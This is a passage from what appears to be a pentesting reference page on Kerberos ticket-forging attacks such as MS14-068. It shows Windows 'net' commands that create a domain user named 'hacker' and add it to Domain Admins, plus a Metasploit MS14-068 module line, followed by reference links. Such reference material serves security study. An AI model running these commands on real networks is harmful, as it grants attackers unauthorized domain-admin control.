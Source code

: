 ```bash
net user "hacker" "132Pentest!!!" /domain /add
net group "Domain Admins" /domain /add
```
{% endhint %}

Metasploit Framework can also be useful in the sense that it prints valuable error information.

```bash
msf6 > use admin/kerberos/ms14_068_kerberos_checksum
```
{% endtab %}

{% tab title="🛠️ Windows" %}
:tools: TODO : kekeo
{% endtab %}
{% endtabs %}

## References

{% embed url="https://en.hackndo.com/kerberos-silver-golden-tickets/" %}

{% embed url="https://adsecurity.org/?p=2011" %}

{% embed url="https://adsecurity.org/?p=483" %}

{% embed url="https://en.hackndo.com/kerberos" %}

{% embed url="https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-overview/" %}

{% embed url="https://labs.f-secure.com/archive/digging-into-ms14-068-exploitation-and-defence/" %}

{% embed url="https://github.com/Dramelac/GoldenCopy" %}

{% embed url="https://ruuand.github.io/MS14-068/" %}

{% embed url="https://www.semperis.com/blog/a-diamond-ticket-in-the-ruff/" %}
